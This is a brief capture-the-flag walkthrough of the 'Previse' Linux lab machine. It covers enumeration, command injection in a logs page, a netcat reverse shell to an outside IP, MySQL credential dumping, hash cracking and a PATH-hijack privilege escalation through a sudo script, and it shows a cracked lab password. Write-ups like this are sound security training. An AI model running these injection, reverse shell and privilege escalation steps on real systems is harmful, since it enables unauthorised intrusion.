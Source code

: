 # Previse

Previse is an easy Linux machine that was released on 07/08/2021.

**Note**: this write-up is quite short and concise as it's based on really brief notes that were taken just for convenience during the pwning of the machine. 

## Enumeration

As usual we start by performing a port scan with nmap

```
nmap -A 10.10.11.104 -p- | tee portscan.txt

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:22 EDT
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds

```

We start with some enumeration on the http service using gobuster
```sh
gobuster dir -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://previse.htb
```
It shows some interesting files. Requesting the 200's in the browser does not seem to bring anything, so let's
examine the http reponses in Burp

nav.php looks interesting and reveals further interesting pages

               <a href="accounts.php">ACCOUNTS</a>

                        <li><a href="accounts.php">CREATE ACCOUNT</a></li>

            <li><a href="files.php">FILES</a></li>
                <a href="status.php">MANAGEMENT MENU</a>

                        <li><a href="file_logs.php">LOG DATA</a>

It seems like the accounts.php could be used to create another account

## Foothold
We find out that sernames and passwords must be between 5 and 32 characters

files.php is also interesting, as it shows a list of all the files uploaded on the site.

It shows a zip file uploaded by newguy, but it is not downloadable as we're not logged in


We can craft a sign-up post request from accounts.php, create our account and log in

From here, we can download the site backup

Browsing throuhg the site source we find sql creds

From the file_logs.php page, we can get a list of all the users that have downloaded files from the server.
The list includes other files beyond the site backup, but they seem not to be downloadable by just changing the GET parameter from the downloads.php page.

From the login.php file we notice that every password is hashed using the same salt

In logs.php there is a comment that says that parsing is done via a Python script called with exec(), which appears to be injectable

It is in fact injectable and from Burp we can inject a netcat reverse shell by appending

```sh
nc -e /bin/bash 10.0.0.1 4242
```
in the POST parameter

Once on the server, can improve our shell with 
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The user is `m4lwhere`
We cannot simply `su` to the user, so we have to find another way.

Remember that we have root credentials for MySQL, so let's try that path.
```sh
mysql -u root -p 
```
with the password found in config.php

and we successfully access the db

```
SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | ooooo    | $1$🧂llol$zxN7/tbhdxnZK4XUb2i1h1 | 2021-10-30 18:07:28 |
|  3 | NAPOO    | $1$🧂llol$vMzw8Wgsgt1kSUp61WJ1V/ | 2021-10-30 18:09:20 |
|  4 | 12345    | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-10-30 18:16:16 |
|  5 | penr0se1 | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-10-30 18:18:06 |
|  6 | penr0se  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-10-30 18:18:51 |
+----+----------+------------------------------------+---------------------+
```

Let's try to crack the hash for m4lwhere
```sh
hashcat -a 0 -m 500 m4lwhere.hash ~/wordlists/rockyou.txt
```
And the password is

`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!`

Now we can ssh into the machine as m4lwhere

## Privesc
We run linpeas.sh but nothing interesting shows up

If we run `sudo -l` we get
```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Let's check out the content of the script

gzip is being called with a relative path, so we can exploit that

Let's create a script called gzip in our pwd which will give us a shell

```sh
/bin/bash -i >&2
```

Now we add our pwd to the PATH env var with
```sh
export PATH=.:$PATH
```

and calling the access_backup.sh script with sudo will give us a root shell
